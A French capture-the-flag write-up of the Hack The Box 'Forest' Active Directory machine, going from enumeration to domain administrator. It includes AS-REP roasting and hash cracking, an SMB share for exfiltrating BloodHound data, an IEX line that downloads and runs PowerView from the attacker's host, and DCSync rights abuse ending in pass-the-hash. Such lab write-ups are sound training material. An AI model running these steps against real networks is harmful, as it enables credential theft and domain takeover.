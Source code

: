 # Forest - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-18 21:11 EST                                                                                                                               
Nmap scan report for 10.10.10.161                                                                                                                                                             
Host is up (0.028s latency).                                                                                                                                                                  
Not shown: 989 closed tcp ports (conn-refused)                                                                                                                                                
PORT     STATE SERVICE      VERSION                                                                                                                                                           
53/tcp   open  domain       Simple DNS Plus                                                                                                                                                   
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-01-18 20:18:36Z)                                                                                                    
135/tcp  open  msrpc        Microsoft Windows RPC                                                                                                                                             
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -3h12m52s, deviation: 4h37m08s, median: -5h52m52s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-01-18T20:18:42
|_  start_date: 2023-01-18T03:04:36
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-01-18T12:18:39-08:00
```

On remarque d’abord beaucoup de service mais on remarque surtout que c’est un AD avec kerberos notamment. SMB apparait dans la liste des scripts qui ont été lancé par nmap, seulement, en lançant smbmap on se rend compte que le port 445 est bien ouvert mais n’accepte pas les connexions anonymes. Même erreur en rajoutant le domaine trouvé

```bash
smbmap -H 10.10.10.161 -u anonymous
[!] Authentication error on 10.10.10.161
smbmap -H 10.10.10.161 -d htb.local -u anonymous
[!] Authentication error on 10.10.10.161
```

On essaye donc de ldapsearch. Ici on a extrait l’argument b à partir des scripts nmap, il est aussi possible de les extraire avec ldapsearch

```bash
ldapsearch -x -H ldap://10.10.10.161  -b "DC=htb,DC=local"
```

Il faut alors analyser le résultat pour voir si on ne peut pas trouver des descriptions contenant les mdp des users ou bien des indices.

Rien d’intéressant pour le moment cependant on trouve plusieurs users intéressants: sebastien, santi, lucinda, andy et mark. Nous avons également les dates de création des comptes et la date de la dernière modification des mots de passe.

Une possibilité est de bruteforce les accounts mais cela risque d’être très long sur du réseau avec rockyou …

On va donc essayer de dump plus d’informations sur le LDAP avant.

Utilisons crackmapexec pour dumb la password policy: 

```bash
crackmapexec smb 10.10.10.161 --pass-pol

/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] Dumping password info for domain: HTB
SMB         10.10.10.161    445    FOREST           Minimum password length: 7
SMB         10.10.10.161    445    FOREST           Password history length: 24
SMB         10.10.10.161    445    FOREST           Maximum password age: Not Set
SMB         10.10.10.161    445    FOREST           
SMB         10.10.10.161    445    FOREST           Password Complexity Flags: 000000
SMB         10.10.10.161    445    FOREST               Domain Refuse Password Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password Store Cleartext: 0
SMB         10.10.10.161    445    FOREST               Domain Password Lockout Admins: 0
SMB         10.10.10.161    445    FOREST               Domain Password No Clear Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password No Anon Change: 0
SMB         10.10.10.161    445    FOREST               Domain Password Complex: 0
SMB         10.10.10.161    445    FOREST           
SMB         10.10.10.161    445    FOREST           Minimum password age: 1 day 4 minutes 
SMB         10.10.10.161    445    FOREST           Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.161    445    FOREST           Locked Account Duration: 30 minutes 
SMB         10.10.10.161    445    FOREST           Account Lockout Threshold: None
SMB         10.10.10.161    445    FOREST           Forced Log off Time: Not Set
```

La commande suivante nous permet aussi de lister les utilisateurs du domain et on trouve un nouvel utilisateur : svc-alfresco. Aucun nouveau share n’a été trouvé ni disponible.

```bash
crackmapexec smb 10.10.10.161 --users
```

Il est possible de faire les même opérations avec rpcclient.

On remarque que le paramètre Lockout Treshold est à none ce qui fait que l’on peut bruteforce. On peut donc lancer le bruteforce en arrière plan pendant que l’on cherche autre chose.

```bash

```

Un autre moyen de procéder peut être d’essayer de trouver le hash d’un mdp d’un des utilisateurs. Impacket permet de faire ça avec GetNPUsers. Cet utilitaire listera les utilisateurs pour qui ce critère est rempli:

```bash
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```

(Impacket comporte une liste d’exemples dans /usr/share/doc/python3-impacket/examples/)

```bash
GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
```

La réponse est donc que svc-alfresco est justement un user qui ne requiert pas de préauthentification (compte de service), on obtient donc le hash de son mdp dans le format hashcat comme demandé.

Il est maintenant possible de lancer hashcat pour cracker le mot de passe.

```bash
hashcat --force hash.txt /usr/share/wordlists/rockyou.txt -m 18200
```

Le -m vient de 

```bash
hashcat --example-hashes | grep -i krb
```

qui permet connaitre le mode en comparant avec les exemples.

On obtient alors rapidement le mot de passe du compte svc-alfredo et on va maintenant pouvoir essayer de se log avec evilwinrm par exemple.

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco
```

Et ça fonctionne, on peut maintenant récupérer le flag user.

Pour commencer on va lancer un serveur sur notre machine pour télécharger winPEAS sur la machine cible.

Rien d’intéressant dans le scan, en cherchant dans les fichiers on trouve le répertoire de sebastien dans C:/Users mais on a pas l’accès.

Rien de trouvé de spécial dans les fichiers non plus. On va donc utiliser bloodhound pour essayer de trouver quelque chose.

On télécharge bloodhound pour linux et on envoie ShardHound.exe sur la machine cible. On l’execute et on attend les résultats, en attendant il faut setup un SMB pour récupérer les résultats depuis le PC de la victime vers notre machine.

```bash
sudo impacket-smbserver Exfil $(pwd) -smb2support -user s1d1ou5 -password password
```

```powershell
$pass = convertto-securestring 'password' -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential('s1d1ou5', $pass)
New-PSDrive -Name s1d1ou5 -PSProvider FileSystem -Credential $credentials -Root \\10.10.16.6\Exfil
copy 20230123114355_BloodHound.zip s1d1ou5:
```

Maintenant on peut dézipper et analyser le fichier.

```bash
sudo neo4j console
```

Et on se connecte au neo4j via bloodhound, on apprend alors par analyse des fichiers que svc-alfresco est membre de SERVICE ACCOUNTS qui est membre de PRIVILEGED IT ACCOUNTS qui est membre de ACCOUNT OPERATORS. Tous les autres utilisateurs sont derrière cet Account operator. 

```
Members of this group can create, modify, and delete accounts for users, groups, and computers located in the Users or Computers containers and organizational units in the domain, except the Domain Controllers organizational unit. Members of this group do not have permission to modify the Administrators or the Domain Admins groups, nor do they have permission to modify the accounts for members of those groups. Members of this group can log on locally to domain controllers in the domain and shut them down. Because this group has significant power in the domain, add users with caution
```

On va donc pouvoir créer un compte utilisateur.

```powershell
net user sidious password /add /domain
```

On voit également que ce groupe a un full control sur le groupe EXCHANGE WINDOWS PERMISSIONS via “reachable high value targets”. On va donc ajouter notre user à ce groupe pour faire un WriteDacl puis dump des mots de passes si possible.

```
The members of the group EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL have permissions to modify the DACL (Discretionary Access Control List) on the domain HTB.LOCAL
With write access to the target object's DACL, you can grant yourself any privilege you want on the object.
```

```powershell
net group "Exchange Windows Permissions" /add sidious
```

Pour utiliser les commandes founies par Bloodhound il nous faut PowerSploit (branche dev car plus récente). 

Pour obtenir directement le contenu d’un script:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://IP:8000/PowerSploit/Recon/PowerView.ps1')
```

On suit les instructions bloodhound

```powershell
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\sidious', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity sidious -Rights DCSync
```

Il faut ensuite utiliser SecretsDump de Impacket:

```bash
secretsdump.py htb/sidious@10.10.10.161
```

On extrait alors le hash du mdp admin qu’on extrait et qu’on utilise pour se log avec psexec.

```bash
psexec administrator@10.10.10.161 -hashes hash:hash
```

On est alors connecté en tant qu’admin et on peut récupérer le flag final !